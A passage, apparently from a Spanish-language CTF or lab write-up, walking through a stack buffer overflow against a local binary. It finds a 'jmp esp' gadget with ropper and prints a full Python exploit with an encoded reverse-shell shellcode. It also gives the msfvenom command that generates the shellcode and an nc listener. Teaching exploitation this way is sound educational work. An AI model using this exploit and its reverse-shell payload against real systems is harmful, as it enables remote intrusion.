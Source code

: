 Ya sabemos el offset, pero nos queda buscar una dirección dentro del binario que apunte a una instrucción `jmp esp`, la cual nos permitirá ejecutar el Stack, donde estará el shellcode. Para buscar esta instrucción usamos `ropper`:

```python
ropper --file secure_software --search "jmp esp"
```

![image](https://github.com/user-attachments/assets/8d1fff5a-f157-4947-be45-344b56012a16)

Vemos que la dirección 0x08049213 apunta a una instrucción `jmp esp`. No tenemos que preocuparnos de que esta dirección cambie, ya que como hemos visto antes, el binario no usa PIE, lo que significa que no hay aleatorización del código del binario cada vez que se ejecuta.

Ahora tenemos lo necesario para diseñar el exploit que nos envie la reverse shell:

```python
#!/usr/bin/python3

from pwn import p32 # función para poder representar direcciones de 32 bits en formato LSB
import socket # librerá para uso de sockets

shellcode = (b"\xdb\xde\xbd\x93\x2f\xcf\xc7\xd9\x74\x24\xf4\x5f\x29\xc9"
b"\xb1\x12\x83\xc7\x04\x31\x6f\x13\x03\xfc\x3c\x2d\x32\x33"
b"\x98\x46\x5e\x60\x5d\xfa\xcb\x84\xe8\x1d\xbb\xee\x27\x5d"
b"\x2f\xb7\x07\x61\x9d\xc7\x21\xe7\xe4\xaf\xce\x17\x17\x2e"
b"\x59\x1a\x17\x31\x22\x93\xf6\x81\x32\xf4\xa9\xb2\x09\xf7"
b"\xc0\xd5\xa3\x78\x80\x7d\x52\x56\x56\x15\xc2\x87\xb7\x87"
b"\x7b\x51\x24\x15\x2f\xe8\x4a\x29\xc4\x27\x0c") # shellcode que nos enviará la reverse shell

before_eip = b'A' * 300 # 300 bytes de relleno para llegar al registro EIP
eip = p32(0x08049213) # dirección que apunta a la instrucción jmp esp
after_eip = b'\x90' * 32 # 32 instrucciones NOP para poder ejecutar correctamente el shellcode

payload = before_eip + eip + after_eip + shellcode # juntamos todo

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # creamos un socket por IPv4 y TCP

sock.connect(('127.0.0.1', 20201)) # lo conectamos a nuestra máquina por el puerto 20201

sock.recv(1024) # recibimos el texto "Enter data:"

sock.send(payload + b'\r\n') # enviamos el payload
 
sock.close() # cerramos el socket
```

El shellcode lo podemos generar con `msfvenom`:

```python
msfvenom -p linux/x86/shell_reverse_tcp --platform linux -a x86 LHOST=127.0.0.1 LPORT=443 -f c -e x86/shikata_ga_nai EXITFUNC=thread
```

Ahora nos ponemos en escucha por el puerto 443 con `nc -nlvp 443`, ejecutamos el binario en local, y ejecutamos el exploit:
